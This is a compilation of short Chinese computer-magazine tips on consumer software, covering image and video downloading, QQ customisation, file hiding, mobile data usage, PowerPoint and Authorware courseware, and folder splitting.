重新拔插一下U盘后，带WINPE系统的多功能启动U盘就制作成功了，所有写入的数据全加密隐藏处理了，U盘剩余空间还允许用来存放其它数据，那就再将自己需要的系统镜像文件（GHO格式）复制进去，这下就可以带上它去安装系统和维护电脑了。

（文/博言）

网上大图批量下

最近家里装修房子，想从百度下载几张装修效果图打印出来作参考，可是百度的图片搜索太不给力，想看大图还要一个一个点进去，手都累酸了还没找到几张好看的。后来无意中发现一个叫“百度图片批量下载”的工具，可以一键批量下载图片，很省事。

从http://www.onlinedown.net/soft/75276.html下载该软件并运行后，可以选择图片的尺寸、数量、格式、颜色和类型，在托盘图标点右键还可以设置图片存储位置，只要在下方输入关键字，就可以一键批量下载百度所有图片。

比如我要下几张玄关的图片，首先选择大尺寸（打印出来效果好）数量定为100，格式选择jpg（这种格式清晰且占空间小），输入“玄关”点击下载，很快软件就自动把图片下载到设置的保存目录下，并且为不同的设置起了不同的目录名，很容易分辨，只要进入目录把中意的图片提取出来就可以了。比用手一张一张下载省事多了。

（文/车风波）

工作奔波 IP无缝轻松切换

公司的外派经理经常会在各办事处之间往返，每次风尘仆仆地到达一个办事处，逗留的时间也不过半天，但每次到不同的办公环境都需要为设置网络参数而费一番周折，很是耽误时间。如果遇到上述情况，不妨试试IP切换精灵（AutoIP）1.0（下载地址：http://www.lhdown.com/soft/5268.html）。

只要在每个办事处打开一次软件，并且在得到网络参数后点击“新建配置”，并勾选“智能更换”、“开机启动”，这样以后到不同的办事处，软件便会自动适应网络环境替你切换好IP地址，真正实现IP无缝轻松切换，提高效率。

（文/叶勇）

快乐购物 淘宝返现商品看得见

淘宝上有许多商品加入了购物返现金活动，比如您通过合作推广网站进入淘宝网，在某个店铺购买了一个价值100元的宝贝，该宝贝的返现比例是8%，那么您在完成该笔订单后，它将给予您8元返利！想知道哪些商品实现返现销售，那就请淘宝省钱小助手（http://www.xdowns.com/soft/17/45/2011/Soft_76003.html）来帮忙。

在淘宝网上看到中意的宝贝后，复制地址栏中的地址并粘贴到本软件中，单击“看看能省多少钱”，若此宝贝可以进行返款，则会显示出返利率、可节省的金钱，单击“点击使用返款购买链接”，则使用此链接购买完成后即可得到相应的返款。

还有一种搜索可返款商品的方法，单击“直接搜可返款”并在“宝贝名称”中输入宝贝名称，单击“淘宝网搜索”或“淘宝商城搜索”即可进行搜索。

当你购买到返现宝贝后，单击“提取返现现金到支付宝”，输入支付宝账号，单击“申请提取返款”，即可提交返款请求。

（文/曹春华）

给我的设计加上版权保护

设计师辛苦了几个昼夜设计出来的效果图，客户有时迟迟不付酬劳。如果用图片保护狗(http://www.tontool.com/software/dog)事先对设计图进行加密保护，就不怕对方不付酬劳了。

打开软件按照其向导模式进行图片的加密操作，在“第一步：设置选项”下勾选“文件加密”和“拷屏限制”，勾选“窗口时间”并设定查看图片超过1分钟自动关闭图片预览窗口，勾选“限制次数”并设置允许打开图片的次数为3次，勾选“时间限制”并设定图片有效期(比如截止到交付图片一日后的早上六点半)，设定图片的“导出密码”和输出路径。

加密完成后就可以把设计图稿发给客户了，当客户拿到这张图片后只要查看时间超过1分钟，打开次数超过三次，到了设置的图片有效期就会自动关闭，从而达到保护版权的作用。注意图片的查看密码和导出密码要设置完全不同的密码。

（文/清风慕缘）

移动硬盘配高清电视有门道

前一阵入手液晶电视一台，支持播放U盘和移动硬盘中的1080P高清视频。虽然目前很多品牌电视均有此功能，但能够读取的移动设备的容量、格式、参数却有待自己发掘。当我决定配16GB闪盘时，网友爆料U盘长时间读取容易过热并且曾损坏N个，于是决定用移动硬盘。

多方咨询，售后A说：仅U盘可用；售后B说：移动硬盘必须分区，C区要小；网上说：NTFS格式不可以，FAT可以；“专家”说：4GB以上1080P高清视频妄想，必有硬件解码才行。

选购入-500GB移动硬盘，2.5英寸，已由卖家格式化却没有分区，NTFS格式，将230GB高清视频入盘，最大单个文件8.7GB，1080P格式，播放正常，证明传言并不可靠。

两星期后新加入60GB视频，并整理文件夹，将其由原来的25个合并成10个，最大文件夹60GB，“电视剧集”下含15个文件夹。结果播放不久后自动退出，打开C盘却找不到，只好又动手恢复原样。前后折腾了8个小时。最终格局是每个文件夹小于30GB，下面不含二级文件夹，8.7GB文件置C盘下，一切恢复正常。

最后的忠告：欲购带高清播放功能的电视，最好带着移动硬盘去试机。

（文/鱼角）

让女友照片充满QQ面板

帮女友将其照片作为QQ面板皮肤，可是女友感觉只有上面一小部分显示，不能在好友列表区域显示。希望QQ面板全部显示照片。我用两个辅助补丁实现了女友的要求。

以QQ2011 Beta2版本为例。退出QQ后，进入QQ安装目录，将Resource.1.61.21XX文件夹备份好。从http://www.huacolor.com/soft/37313.html下载对应QQ2011 Beta2版本的“QQ2011透明皮肤”压缩包，解压得到Themes文件夹和Res.rdb文件，将它们复制粘贴到QQ安装目录下的Resource.1.61.21XX文件夹中覆盖原文件夹和文件。再从http://www.vdisk.cn/down/index/8027299A5959下载“qq2011皮肤补丁之去除主面板搜索框安装包”文件，同样复制到Resource.1.61.21XX文件夹中，运行后点击“同意并应用补丁”，补丁执行完毕后退出。

重新登录QQ后自定义面板皮肤，选择裁剪得与QQ面板差不多大小的女友照片打开，选择背景填充方式为单张，可拖动照片的控制点缩放照片大小，再拖动主面板和照片到合适位置。如果要恢复原状，退出QQ，将备份的Resource.1.61.21XX文件夹粘贴回QQ目录下的原文件夹即可。

（文/博言）

拖拖拉拉 压缩包操作超简单

办公中经常需要处理压缩包，一般都要在压缩工具的主界面中进行操作，即使是通过右键菜单的快捷命令进行操作，仍然需要多次确认，有点麻烦。安装15.5 Build 9510或更高版本的WinZip后，其专用小工具会让一切变得超简单。

安装时请务必选中Include WinZip gadget on the desktop，完成后会在桌面显示一个圆形的图标。

WinZip将默认的压缩路径和解压缩路径都设置为桌面，无论是打包压缩文件，或者是对压缩包进行解压缩，只要将文件拖曳到这个圆形的图标上（注册版本不需要任何确认），立即就可以完成相关操作。

如果需要更改默认的压缩路径和解压缩路径，可以打开此工具的选项对话框重新设置。

（文/长江边上）

商品大图抠下 美图无处可逃

喜欢收藏、喜欢抠图的朋友或许经常遇到这种情况，有些购物网站上只给出个缩略图，如果把鼠标移上去，会出现活动的局部大图，看得你心痒痒，却无法把大图保存下来。

这时可以使用“弘一网童”这个小工具，这是一款可以方便地把网页里的文字保存为Word文档、网页图片和Flash的小软件，各大下载站都有下载。安装好后再打开购物网站，右键点击那个缩略图，选择“网童.保存图片.FLASH”，在弹出的对话框中，可以选择分辨率比较大的图片，在所有希望保存的图片上打上钩，就可以把大图都保存下来了。

用这款软件还可以批量保存同一个网页里显示的大量图片，大家可以自己探索。

（文/王卫华）

找不到移动盘符怎么办

生活中经常用到移动盘，可有时在这台机子能用，换到另一台就不能用了（在任务栏右下角看到标志，却看不到盘符，无法打开），这时可试试这个方法来解决。

将移动盘连接电脑，确认已连接上。打开电脑，看不到移动盘符，打不开，不要着急，打开控制面板找到管理工具，再双击打开“计算机管理”，选择“磁盘管理”。右击可移动盘（例如“J”盘），选择“更改驱动器名和路径”，在打开的对话框中单击“更改”，单击向下的小三角，选择其他的盘符，确定后，在“我的电脑”里就会出现移动盘符，这样就能使用移动盘了。

（文/张春香）

快递查询伤不起 友商快递超给力

网购离不开快递，用EMS查询网站时操作步骤多，需输入验证码，等待时间长，而快递查询工具大多需要收费，很多时候查询不到位。通过“友商快递100”这个几乎支持所有快递方式状态查询的网站，就能轻松快捷地及时了解快递状态。

进入该网站（http://www.kuaidi100.com/），选择快递公司名称并输入运单号，如查询的是EMS特快专递，无需输入验证码，几乎无需等待，就可在下方得到所查询的物流情况，这比到EMS查询网站查询方便多了。

你还可以将快递查询页面嵌入到你的网站，在“快递工具”页面右侧点击“快递查询代码”下的“获取代码”，选择一种自己喜欢的代码，点击“运行代码”，满意后将代码复制粘贴到自己的网站或空间中，即可马上拥有与该网站完全一样的快递查询功能。在“手机查快递”页面选择一个适合自己手机的客户端，下载后安装到智能手机上，就可以随时随地进行快递物流查询了。

（文/博言）

每天解决15个英语单词

为了应对大学英语四、六级考试，同学们都在争分夺秒地背单词，不过效果实在有限。若利用有道词典4.3 Beta新版本，可以每天帮你轻松解决15个英语单词，自然不用担心考试啦。

首先访问http://cidian.youdao.com/cet/，在四六级冲刺专区下载CET 4或CET 6的必备词汇表，并解压备用。打开有道词典，进入“有道单词本”界面，依次单击“管理→导入”，将解压缩的cet6.xml或cet4.xml文件导入到单词本，勾选需要背诵的单词（每天最多可以选择30个单词），单击“加入复习”，切换到“复习”选项卡，就可以借助有道词典进行复习，初次复习会在添加到单词本之后5分钟进行，如果这个单词已经记住了，那么可以直接进入下一单词的复习，是否简单许多？

登录网易账号，可以随时随地在不同的位置运行有道单词本进行复习，从而进一步提高四六级单词的复习效率。

（文/王志军）

是谁盗用了我的照片

小张总爱把自己的照片放到网络相册上与好友分享，突然有一天，有好友说曾在某网站看过她的照片，这让她非常吃惊，她从没把照片给过别人，因此可以确定是某个网站盗用了她的照片。小张决定找出窃贼讨个说法，可网海茫茫，怎样才能找出盗用自己照片的网站呢？如果使用火狐浏览器，这事就非常好办。

首先下载并安装Who stole my pictures这个插件（下载地址：http://releases.mozilla.org/pub/mozilla.org/addons/266838/who_stole_my_pictures-0.0.5-fx+sm.xpi），然后重启火狐浏览器，进入网络相册页面，找到被盗用的照片右击鼠标，在弹出的菜单中指向Who stole my pictures选项，那么在随后弹出的级联菜单中，便会出现Tineye、GazoPa、Baidu、Cydra等五个图片搜索引擎，选择其中任何一个搜索引擎，便可立即调用该搜索引擎进行查找，如果选择Open all in tabs选项，五个搜索引擎同时搜索。

（文/赵毅仙）

邮箱地址不用贴 批量导入最省事

小雨，来，帮我把战友的邮箱地址，全部贴到我的邮箱里。我刚贴了几个，有点老眼昏花了。

老爸，邮箱地址不用一个个贴，可以批量导入的。

首先把存有地址信息的Excel文件另存为邮箱支持的CSV文件类型。目前的多数邮箱（如Foxmail、网易等）都支持此文件类型，然后批量导入邮箱地址。

以Foxmail邮箱为例，点击“工具→地址簿”，

- ① 选中事先建好的“战友”文件夹，点击“工具→导入→CSV文件”，选择刚保存好的CSV文件“战友通讯录”。
- ② 当文件中的列标题与Foxmail预设的字段名一致时，它会自动识别并对应。这里的“姓名”和“手机”字段已对应上，而“邮箱”还没有对应，说明Foxmail中预设的字段名不叫“邮箱”，所以无法识别，需要我们人工识别并将其对应。
- ③ 选中“邮箱”字段，点击“映射”按钮，在弹出的“更改映射”窗口中选择“电子邮件地址”。“邮箱”字段就会对应上。确认三个字段前面都打了钩（如果某字段前不打钩，该字段内容不会被导入）后点击“完成”。
- ④ 看，没花几分钟，“战友通讯录”中所有的邮箱地址都被导入“战友”地址簿文件夹中啦！

（文/沈薏）

李代桃僵巧藏机密文件

公司副总到外地出差恰谈一笔重要业务，忽然想起有一份重要文档忘记携带，于是打电话让秘书小李将该文档发来，并再三叮嘱要保密。副总打开邮箱中收到的文档，却发现和他所要的文档风马牛不相及。

不过很快小李就将密码和解密方法发送到了他的手机上。原来，真正的文档就加密隐藏在这份看似无关的文档中。这种李代桃僵的手段巧妙地保护了文档的安全。小李究竟用了什么特殊技术呢？

- ① 小李用的是Computer Security这款系统安全软件。在其主窗口中选择需要加密隐藏的文件（例如“公司机密.doc”，注意可以选择多个重要文档），在其右键菜单中点击“Hide Files”。
- ② 在弹出窗口的“Enter a password for access to encrypted files”栏中输入密码。“Select the encryption algorithm you want to use”列表中预设了二十多种加密算法，您可以自由选择。而别人即使知道您加密隐藏了文件，但并不知道您使用了何种加密算法，就很难对其破解。
- ③ 在“After encryption”栏中如果选择“Shred files”项，可以在加密隐藏完成后彻底删除原文档，防止别人非法恢复文件。如果选择“Delete files”项，仅是简单删除原文档。
- ④ 在“Please enter the name of the carrier in which you want to encrypt and hide”栏中点击浏览按钮，选择宿主文件，即选择其他无关的具有迷惑性内容的文档（例如“工作条例.doc”），勾选“Hide files in this career”，点击OK执行加密隐藏操作，最后点击“Finish”完成操作。

小提示：要取出其中保存的机密文档，只需在主窗口中选择宿主文件，在其右键菜单中点击“Unhide files”，在打开的窗口中输入密码并选择输出路径，就可以将隐藏在其中的机密文档进行解密。您还可以先用WinRAR将机密文档加密压缩后，再用Computer Security将压缩包加密隐藏到宿主文件中，从而大大提高数据的安全性。

下载地址：http://www.adolix.com/download/ComputerSecuritySetup.exe

（文/郭建伟）

讲座提取音声 广播录制音频

给老爸配了一部带MP3播放功能的手机，还特地为他下载了一些歌曲，可他一点也不喜欢听，他喜欢听百家讲坛、健康养生之类的讲座，有时也爱听网络电台中的新闻、相声之类。可是从网上下载的这些讲座一般都是视频文件，一来容量大，手机中根本存放不了，二来手机不支持视频播放。如何把视频中的声音提取出来呢？不提供下载链接的网络电台播放的音频又如何获取呢？

## 1. 从视频中提取声音

用软件Super Video to Audio Converter（下载地址：http://download.pchome.net/detail-36697.html）可以从avi、flv、rmvb、mpeg等几乎所有视频格式的文件中提取声音，而且支持批量提取。

软件运行后，单击“添加文件”按钮加入视频文件，也可以单击“文件→添加文件夹”，把某个文件夹下的所有视频文件全部添加进来。加入之后勾选它们，然后指定输出音频文件的类型（通常选择MP3格式），并指定输出目录，最后单击“开始转换”，就可得到所需要的音频文件了。

小提示：转换速度令人满意，一部播放时长为40分钟的视频文件，大约只需要5分钟的时间即可把其中的声音提取出来。

## 2. 把网页中的声音录下来

老爸一般是到“FIFM.cn电台世界”（http://www.fifm.cn/#y）中收听节目，一是这里的电台很多，号称世界第一，二是播放界面很简洁，简洁到只有播放、停止按钮，根本不提供下载链接。

对这类只能在网页中播放的声音，可以用软件ARWizard（下载地址：http://www.pdown.net/soft/38866.htm）来进行录制，录制过程很简单。

软件运行后，首先单击Optinos按钮打开“参数选择”设置窗口，选中“录音设定”，勾选“跳过无声部分”后，关闭设置窗口。

然后打开网页进行播放，播放时应该把音量调至适中，不可过小，也不必太大，然后单击“录制”按钮，录制完成后，单击“文件”按钮即可保存所录制的MP3文件。

（文/曹春华）

没有无缘无故的流量费

经常有朋友不经意间把手机流量套餐用光，导致流量超支扣费，严重的超支较多，最后被扣了大笔话费，甚至有的人并没有上网还是被扣了大笔流量费。这是什么原因呢？有人认为这是手机中毒了，动辄刷机返厂，还有人大骂移动联通乱收费。实际上没有无缘无故的流量费，且让我给你一一解说。

## 一、问题归类

### 1. 开机自启联网型

好多软件商为了方便用户使用，加设了开机启动选项，殊不知这造成了大笔流量费的隐患。下面拿最典型的网秦助手来说，它或许给好多人造成了高额流量费吧。这款软件会开机自启，然后联网检测手机，本来是一款安全软件，最后带来了很多麻烦。当你的流量套餐还有流量时这只是小问题，可是当你的流量用光之后，这扣的就不是流量了，而是话费。另外不得不说网秦软件有些流氓。

软件弹出的图的提示恐怕有点流氓，有时它会自动联网下载网秦其他软件，而且一旦下载你不能停止，因为刷的一下，软件界面消失了。

只有等着它下载完成之后你才能继续选择，这样无疑加大了流量的消耗。

小提示：类似的软件：一些开机启动的安全软件，包括后面提到的360手机安全卫士也会开机启动，还有一些邮件收发客户端，这些软件如果开机启动都会消耗部分流量。

### 2. 自动联网更新型

这种情况在输入法软件中比较明显，尤其是搜狗输入法，因为为了方便用户使用，输入法的字库设定成了手动更新或自动更新，稍有不慎就会设置成自动更新，为以后的使用留下隐患。

有的软件打开之后就会联网更新内容，这个以手机端常用阅读软件掌上书院为例。

掌上书院并不单纯是一款本地电子书阅读软件，它同样集成了在线阅读功能，类似的软件还有熊猫看书等，每当你打开软件相应界面，它会自动联网更新内容，就是更新那些在线图书内容。

小提示：类似的软件：一些同时集成了本地和在线功能的软件，比如一些阅读软件、视频软件。

### 3. 使用时联网型

这个以手机端360安全卫士为例，有的朋友害怕手机中毒，经常用360手机安全卫士查杀，其实360讲究云查杀，有时不经意间就联网了。

部分软件退出后会有一个网站推荐，如果你不小心点了“是”，它就会联网，即使你迅速退出，它还是会消耗一部分流量的。

小提示：类似的软件：一些杀毒软件和一些游戏程序

## 二、解决方法

解决办法有很多，可以手动设置，这里还是给出最简单的方法：使用360手机安全卫士进行设置。

通过软件的联网监控功能，让程序联网需要得到你的同意。

以后程序无论开机启动还是用其他的方式进行联网，都需要先问过你，这样就能比较好地控制联网。

## 三、给朋友们的建议

手机上网是比较方便的，但是流量用超了就会变成一个大“杯具”。所以建议大家使用软件时一定要仔细设置，不要为以后留下隐患，也不要给不法软件商可趁之机。以上的耗流量软件平时只是多费一点流量，但是当你的流量超支之后将变成人民币负担。不要让一个联网设置压榨你的话费。当每个月的流量套餐用光之后最好暂时关闭联网功能，次月重新开通。移动的用户可以发送QXGPRS到10086取消联网功能，联通用户发送QXGPRS到10010。

（文/李瑞延）

检查袭来 PPT不用手忙脚乱

局里一个电话打来，我就知道又有活干了，头儿果然很快就下了指示，要做工作汇报PPT，要求将能用的成果图片统统加上去，以充分展示辉煌成就。我大略估算了一下，竟然有近百张图片，但时间只有三天。要又快又好地完成任务，看来常规办法不行，得另辟蹊径。

蹊径之一：明建相册 暗插图片

喜欢做电子相册的朋友不会忘记PowerPoint有建立相册的功能，不过未必只有做相册时才用它。这个功能的便捷之处在于可以批量插入图片到PPT中，而且可以根据需要让每张幻灯片单独显示一张到四张图片。

利用这个特性，我们完全可以将其当成图片批量插入的利器，以PowerPoint 2010版为例：

- 依次点“插入→相册→建立相册”，打开相册插入对话框。
- 点“文件/磁盘”按钮，定位到图片所在文件夹，选择所有图片后点“创建”，PowerPoint会自动创建一个PPT文件，内容就是你选中的那些图片。

蹊径之二：他人动画 为我所用

图片有了，大小也合适后，没动画怎么行？虽说PowerPoint 2010中提供的动画效果已很多，但要做出来能称得上精彩，确实要下功夫。我电脑中存有一个以世博为内容的PPT，是从网上下载的，里面的动画效果很是精彩，仔细研究后发现，里面很多精美绝伦的动画效果实际是综合运用了进入、强调、退出和自定义路径这些动画方式。

美则美矣，但制作耗时也是惊人的，一个对象的动画效果做下来就得半天，问问周围同事，谁有那么多时间？可是，好动画还是得有，怎么办？两个字：克隆。

这个方法只适用于PowerPoint 2010。PowerPoint 2010一大亮点就在于提供了动画刷功能，可以方便地将做好的动画效果克隆到新对象上去，就像格式刷一样。

打开含有精彩动画的PPT文件，在幻灯片上选中一个动画对象，依次点“动画→动画刷”，然后返回欲运用该动画的PPT文件，要在哪个对象上克隆该动画效果，只要在该对象上点一下，一个精彩的动画就被克隆过来了。

有了这个法宝，就能在极短的时间内给PPT加上动画外衣。

小提示：妙用快捷键 迅速调大小

一般情况下，图片的缩放都是通过鼠标调整的，不过有时也可以用键盘：选中图片，按住Shift键不放，然后按→键（或者↑键），每按一次，图片就自动按比例放大一点；如果按的是←键或者↓键，则图片自动按比例缩小。这个方法比鼠标操作便捷多了。
(文/贺拴运)

课件用视频 困惑一一解

在制作多媒体课件时，我们常常需要使用一些视频，而这些视频文件的获取，通常都是从网络下载，土豆、优酷等都是视频的来源。可在实际使用时，我们会遇到不少问题，比如精华裁剪，Logo遮挡，重新配音，格式转换等。本文就可能出现的问题，请出“曦力音视频转换专家”（下载地址：http://www.xilisoft.com.cn/xn-video-converter-ultimate.html）帮我们排忧解难，说不定其中就有您需要的呢。

裁剪合并 一步到位

下载的视频，很多不能直接搬到课件中使用，一般需要去粗存精，删除糟粕，留其精华。因此必须学会裁剪合并视频，让视频的精华真正为我所用。

- 打开此软件，单击工具栏上的“添加文件”按钮，选择要修剪的视频，然后单击“剪辑”按钮，拖动播放滚动条到视频精华的开始部分单击“设置起点”，再拖动到结束位置单击“设置终点”，这样视频中的精华段落就被截取出来，最后单击“应用”。
- 如果还需要视频中的其他部分，则单击“新建片段”，设置视频片段的起点和终点，这样就会增加一个片段，完成后单击“应用”。
- 选择“合并输出”，关闭剪辑窗口。此时在视频列表中会自动增加一个新剪辑，选中后单击“开始转换”即可将分割后的视频片段连接成一个完整视频。

影像 Logo 巧妙遮挡

从各大网站下载的影像，通常都会有网站的Logo，商业味太浓。可用学校的校徽Logo图片遮挡住视频中的网站Logo，这样既能多些文化味，还能免费给学校做个宣传。

先将影像导入，然后单击“编辑效果”按钮，切换到“水印”选项，单击“添加水印图片”按钮导入校徽Logo图片，再拖动图片覆盖影像中的Logo，在“水印尺寸”调整校徽Logo的大小，让其正好覆盖住。

小提示：

用来做遮挡的Logo图片如果是不规则图形（如圆形），可以将背景部分在Photoshop等软件中修改为透明，再将图片保存为PNG格式，这样导入后背景部分就会自动透明，可以完美融合到影像中。

视频原声 完美替换

课件中要用到一段采访视频，可实时拍摄的影像中声音非常噪杂，最好重新配音后替换原声。

首先播放视频，并将视频静音，然后使用录音工具，根据视频内容进行实时录音，再将录制的声音保存备用。打开音视频转换专家并导入视频，单击“编辑效果”按钮，切换到“音频”选项，单击“+”按钮导入配音文件，再选择导入的配音文件，这样视频中原有的音频就会被替换，单击“应用”按钮后“关闭”。

最后重新输出视频即可。

PowerPoint是目前最常用的课件制作工具，可不足之处就是它无法直接导入flv格式视频，而网站的视频大多数都是flv格式。虽然可以使用插件导入flv视频，但当课件拷贝到其他电脑上播放时，经常会出现故障。其实最简单的解决方法是将flv视频转换成常见格式的视频，如wmv、mpg等，就能避免视频格式带来的麻烦。将视频导入到转换专家，进行必要的处理后，单击“预置方案”后的“▼”选择“高清视频→高清-WMV视频”，在“输出目录”中选择保存文件夹，最后单击“开始转换”按钮即可。

小提示：

这里之所以建议大家使用高清格式，是因为下载的网络视频本身的画质就不太好，因此在导出视频时，可使用高清格式，这样尽可能保证视频画质。当然了，大家也可以根据实际需要输出视频。
(文/江苏如东 俞志勇)

视频下载各有招 分块合并也轻松

看了精彩的在线视频后想下载到自己的电脑上，却找不到下载地址，怎么办？或者有些视频是被分割成很多个视频文件，如果直接通过百度工具栏或迅雷下载，下载与合并过程都会有点麻烦，有什么好办法吗？

一、在线视频下载用不同的招数

对于优酷、土豆等主流的视频网站，可以用维棠flv视频下载软件（http://www.vidown.cn）或硕鼠FLV下载软件（http://www.flvcd.com）。

对于一些论坛、博客上的视频，因为它们不是FLV格式，可用影音嗅探专家（http://www.onlinedown.net/soft/36157.htm），可以轻松嗅探在线电视电影地址、Flash、MP3、Email地址、FTP等网络地址以及在线FLV视频地址，各种网络电视电影软件也逃不过。

有读者会问，既然影音嗅探专家能嗅探在线FLV视频地址，那维棠和硕鼠不是没什么用了吗？经过本人检测比较，发现影音嗅探专家单个视频下载速度比维棠和硕鼠慢得多，而且无法自动合并下载的视频，而主流的视频网站一般都是分段的，维棠和硕鼠就不存在这个困扰。

对于直播电视的下载，在RealPlayer（http://www.newhua.com/soft/16622.htm）中打开http://www.haotv.com，搜索要看的电视台（比如金华），选择金华教育科技频道，鼠标移到视频左上角，出现“下载此视频”按钮，点击此按钮即可下载。

小提示：
以上软件也适用于音频的下载哦。

对于中央电视台的节目，比如综艺频道的《巅峰音乐汇》，访问该栏目所在频道的主页（http://cctv.cntv.cn/cctv3/）并选择“巅峰音乐汇”栏目，找到你需要的某期栏目的视频，借助“稞麦综合视频下载”（下载地址：http://www.xmlbar.net/soft.php?type=flv）这款小软件，就可以轻松搞定央视分块视频文件的下载合并问题。

- 首先通过浏览器打开要下载视频文件所在的网页，选中地址栏中的网址，右击执行“复制”命令。运行“稞麦综合视频下载”软件，将视频文件的网址粘贴到“输入视频地址”文本框中，单击右侧的“下载”按钮，在弹出的“信息”对话框中单击“单独下载”项，并选择“标清格式”项，确定后即可开始下载分块视频文件。
- 通过该软件下载视频文件，不仅不需要先完整缓冲甚至播放文件，而且下载速度也比较快。比如某期节目时长70多分钟，已经被自动分割成15个视频文件，按名称顺序排列在下载列表中，很方便对文件进行排序合并操作。
- 该软件本身已经集成了文件合并功能，在下载文件之前，单击主程序窗口下方的“选项”按钮，可以在“选项”对话框中设置下载合并的相关选项。勾选“下载完自动合并”项，它会在所有分块视频文件下载完成之后自动将它们合并为一个文件，文件名一般为“栏目名称_年份_期数”的形式，例如“巅峰音乐汇_2011年_第11期.mp4”。
(文/金彪 姚文连)

3G流量超标 请管家帮忙

小Q前不久刚刚换上了3G上网。将3G无线上网卡插入笔记本，便开始了自己的网上冲浪之旅。谁知月末交纳3G上网费用时，竟然不知不觉中多花费了许多流量。

为了不让3G上网流量再次超标，小Q请来了能以数字和图表的方式直观展示上网流量的QQ电脑管家，就再也不用为3G资费超标而发愁了。

- 打开QQ电脑管家(以4.7版本为例)，点击主界面的“高级功能”图标，在打开界面中选择“系统”栏下的“3G流量统计器”，其默认并没有开启3G流量统计工具服务。在打开的“管理网络流量”窗口中的“3G流量统计”选项卡下单击“立即开始”，它就会开始统计上网流量。
- 此时还需要在窗口中勾选“已用流量达到500MB时提醒我”复选框。这是以默认数值500MB为例，具体数值需根据自己的3G上网流量设定。
- 单击“设置”，在弹出的“监控设置”窗口中勾选“开机时自动运行网络流量管理”复选框，3G流量统计就可以开始了。

小提示：
需要注意的是由于计算方法与运营商不一致，可能会导致月初/月末统计流量的差异。

网上益智体验 链接转至手机

孩子们的好奇有时会让妈妈们手足无措，他们可能会突然指着一张不知名的图片问：这上面是什么塔呀？Google新发布的以图搜图功能就能够帮助妈妈们轻松解决各种难题。只要在搜索框上传图片，就能得到相似的结果及相关图片信息。

- 可以让孩子们做一些创造性的事情，既有趣又益智。以Google Chrome浏览器为例，可以安装Kid Mode for Chrome应用程序，它能帮助孩子做有趣的益智游戏，甚至让他们用美术工作室来涂鸦。

小提示：
如果担心孩子们会受到不良信息的侵扰，还可以安装Kid Safe Chrome Extension应用，它会利用元网站评级为孩子提供一个更安全的浏览体验。
- 当看到某个网页中的游乐园评价很高，想查找相关位置信息，可选中目标地址，右击并选择“用Google搜索(目标地址)”，它将自动把Google地图的搜索结果呈现在结果页首位。
- 出门之前，可以先装上Chrome to Phone应用，这样出门时就能立即把电脑上的链接转移手机上，可以在路上随时随地继续浏览相关网页。另外，还可以通过Full Screen Weather应用来查询天气。

小提示：
在网上购物时，如果需要在不同的网站下单，可点击浏览器扳手图标下的“选项→个人资料”，选中“表单自动填充”，这样就不需要多次输入地址了，以免贻误最佳购物时间。

发出我们的声音 QQ任意铃声自设

好友铃音是设置好友上线的个性铃声，QQ好友铃声可随意设置，方法非常简单。这里有全民版和会员版两种方案。

全民版：天下没有免费的午餐

经过反复测试，非会员想要随意设置好友铃声，唯有使用老版本QQ这一方法(测试版本：2008IIbeta1)。

首先登录QQ2008IIbeta，选择“设置→系统设置→声音设置”，点击“更换提示音”，在弹出的对话框中选择任意一个wav音频即可。此方法仅在老版本QQ有效，且由于腾讯对老版本QQ的封杀，除个别特殊版本外其余均无法登录，实用性非常有限。

会员版：瞒天过海 偷梁换柱

QQ会员的好友铃声默认状况下保存在qq\All Users\QQ\Misc\com.tencent.qqr目录，需要使用时自动调用对应的铃声。但即使该铃声被替换，只要文件名相同，QQ仍会调用。所以只要任意设置一个铃声，然后在该目录下找到对应的铃声文件，删除后将其替换成我们自己的铃声，即可解决问题。

- 首先打开QQ的系统设置，选择“基本设置→声音→设置好友铃声”登录会员铃声设置页面，任设一个铃声，这里以铃声“铃儿响叮当”为例，点击红色的设置按钮，选择需要添加特别铃声的好友，完成设置。
- 这首铃声在先前提到的文件夹中名称为37369.wav，删除此文件，再选择任意一个本地的音频文件，将名称修改为37369复制到该目录下，即可将该音频设置为好友铃声。如果设置其他的网络铃声，只需在文件夹中找出对应的音频替换即可。
- 同样的原理可以解决QQ下线以及消息铃声。有意思的是此方法不仅可以设置好友铃声，对于会员炫铃同样有效，前提是对面修改了铃声文件。只要铃声名称相同，格式要求并不严格，经验证mp3格式同样可行。

完形填空随机 英语课堂生辉

完形填空题是英语考试中的一种常见题型，它的基本构成形式中，题目上方矩形框中的内容为备选短语。在实际课堂教学中，我们往往想利用课件来进行这部分教学，因为学生在回答时具有随机性，这就要求我们老师在制作课件时能够实现随机点击待填空处，备选短语飞入该处并显示正确的时态语态，同时该短语从矩形框内消失，以免重复选择，要实现这个目标，PPT显得有些力不从心。而利用Authorware软件卓越的交互功能，可以方便地达到这个目的。

在Authorware流程线上顺次添加三个显示图标，分别命名为“背景”“题目”“矩形框”，打开“题目”图标输入题目，打开“矩形框”绘制矩形框并调整位置。

在流程线上添加15个显示图标，依次命名为图标1-15，打开每一个显示图标，输入备选短语，然后调整矩形框内备选短语的位置。

添加一个交互图标，命名为“交互”。在其右侧添加一个群组图标，命名为“1”。交互类型选“热区域”。单击工具栏中的运行按钮，出现画面后单击暂停按钮，拖动热区域句柄至空1处。双击打开群组图标，添加移动图标，命名为“移动1”。

双击该移动图标弹出移动设置窗口，单击显示窗口中的词组“the best season of the year”，将其设置为运动主体并拖动至目的地，然后回到属性设置窗口进行相关设置。

在群组图标“1”右侧添加一个群组图标，命名为“2”，比如要将“get warmer”填充时改为“gets warmer”，只需在前面步骤的基础上作少许改变。

双击群组图标2，数次添加移动、擦除、显示图标。“移动2”设置方法与“移动1”相同。单击工具栏中的运行按钮，擦除对象选“get warmer”，显示图标“答案2”中输入“gets warmer”调整至空2处即可。

其余的仿照完成，若所填内容为短语原形可仿照前面的例子，若所填内容要根据时态语态进行变化可仿照后面的例子完成。

随意切割 文件夹也有分身术

近来想把笔记本电脑中的文件夹，用U盘转移到台式机中保存。但文件夹体积巨大，U盘容量太小，凭肉眼分辨文件体积太不方便。虽然可以利用WinRAR分卷压缩，但那样一来，反复的压缩和解压操作也太麻烦。后来经朋友推荐，采用Folder Axe这款软件，把文件夹分割成几个体积小于U盘容量的小文件夹，顺利完成了大文件夹的转移。

一、按体积分割

Folder Axe (下载地址: http://bkprograms.weebly.com/downloads.html) 需要.NET Framework 4.0支持，操作非常简单。

打开程序界面，单击Select a folder to split按钮，在弹出的对话框中选择要分割的文件夹打开。然后切换到By Size标签，在What should the size limit for each folder be右侧的文本框里，输入每个子文件夹的体积限制，比如U盘容量为256MB，则输入256。

